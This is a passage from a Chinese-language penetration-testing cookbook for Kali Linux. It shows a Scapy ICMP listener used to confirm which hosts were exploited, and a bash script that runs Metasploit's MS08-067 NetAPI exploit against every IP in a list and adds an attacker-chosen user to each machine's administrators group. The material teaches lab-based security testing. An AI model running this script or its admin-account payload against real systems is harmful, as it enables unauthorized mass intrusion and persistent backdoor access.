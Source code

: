 ```
print "Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning" 
sniff(lfilter=rules,store=0) 
```

脚本侦听所有传入的流量。 当接收到 TTL 值为 15或 更小的 ICMP 数据包时，脚本将系统标记为可利用。

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning 
```

Python流量监听器应该首先执行。 脚本最初不应生成输出。 此脚本应该在开发过程的整个时间内持续运行。 一旦脚本运行，应该启动 bash 利用脚本。

```
root@KaliLinux:~# ./multipwn.sh iplist.txt 
Exploiting 172.16.36.132 and pinging 
Exploiting 172.16.36.158 and pinging 
Exploiting 172.16.36.225 and pinging 
```

当执行脚本时，原始终端 shell 会显示每个系统正在被利用，并且正在执行`ping`序列。 还将为输入列表中的每个 IP 地址打开一个新的 GNOME 终端。 当每个利用过程完成时，应该从目标系统发起 ICMP 回响请求：

```
root@KaliLinux:~# ./listener.py 
Listening for Incoming ICMP Traffic. Use Ctrl+C to stop scanning 
172.16.36.132 is exploitable 
172.16.36.158 is exploitable 
172.16.36.225 is exploitable
```

假设攻击成功，Python 监听脚本会识别生成的流量，并将 ICMP 流量的每个源 IP 地址列为可利用。

### 工作原理

ICMP 流量似乎是一种用于验证目标系统的可利用性的非直观方式。 然而，它实际上工作得很好。 单个 ICMP 回响请求在目标系统上没有留下任何利用的痕迹，并且不需要过多的开销。 此外，将 TTL 值设为 15 不太可能产生误报，因为几乎所有系统都以 128 或更高的TTL值开始。

## 8.8 创建管理账户的多线程 MSF 利用

该秘籍展示了如何使用 bash ，在多个系统上利用单个漏洞，并在每个系统上添加一个新的管理员帐户。 该技术可以用于以后通过使用集成终端服务或 SMB 认证来访问沦陷的系统。

### 准备

要使用此秘籍中演示的脚本，你需要访问多个系统，每个系统都具有可使用 Metasploit 利用的相同漏洞。 提供的示例复制了运行 Windows XP 漏洞版本的 VM，来生成 MS08-067 漏洞的三个实例。 有关设置 Windows 系统的更多信息，请参阅本书第一章中的“安装 Windows Server”秘籍。 此外，本节还需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

下面的示例演示了如何使用 bash 脚本同时利用单个漏洞的多个实例。 特别是，此脚本可用于通过引用 IP 地址的输入列表来利用 MS08-067 NetAPI 漏洞的多个实例：

```
#!/bin/bash 
if [ ! $1 ]; then echo "Usage: #./script <host file> <username> <password>"; 
exit; fi

iplist=$1 
user=$2 
pass=$3

for ip in $(cat $iplist) 
do   
    gnome-terminal -x msfcli exploit/windows/smb/ms08_067_netapi PAYLOAD=windows/exec CMD="cmd.exe /c \"net user $user $pass /add && net localgroup administrators $user /add\"" RHOST=$ip E   
    echo "Exploiting $ip and adding user $user" 
done 
```
